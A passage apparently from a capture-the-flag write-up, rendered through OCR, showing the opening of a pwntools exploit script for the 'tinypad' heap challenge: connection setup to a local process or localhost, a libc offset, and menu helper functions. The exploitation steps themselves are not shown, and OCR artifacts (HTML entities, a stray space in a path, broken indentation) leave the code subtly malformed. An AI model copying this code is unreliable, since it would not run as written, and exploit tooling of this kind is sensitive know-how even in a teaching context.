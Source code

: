 
Specific use of the script is as follows


```python

from pwn import *

context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

if args['DEBUG']:

    context.log_level = 'debug'

tinypad = ELF (&quot;./ tinypad&quot;)
if args['REMOTE']:

    p = remote('127.0.0.1', 7777)

    libc = ELF('./libc.so.6')

else:

    p = process("./tinypad")

    libc = ELF('./libc.so.6')

    main_arena_offset = 0x3c4b20

log.info('PID: ' + str(proc.pidof(p)[0]))





def add(size, content):

    p.recvuntil('(CMD)>>> ')

    p.sendline('a')

    p.recvuntil('(SIZE)>>> ')

    p.sendline(str(size))

    p.recvuntil('(CONTENT)>>> ')

    p.sendline(content)





def edit(idx, content):

    p.recvuntil('(CMD)>>> ')

p.sendline ( &#39;e&#39;)
    p.recvuntil('(INDEX)>>> ')

    p.sendline(str(idx))

    p.recvuntil('(CONTENT)>>> ')

    p.sendline(content)
```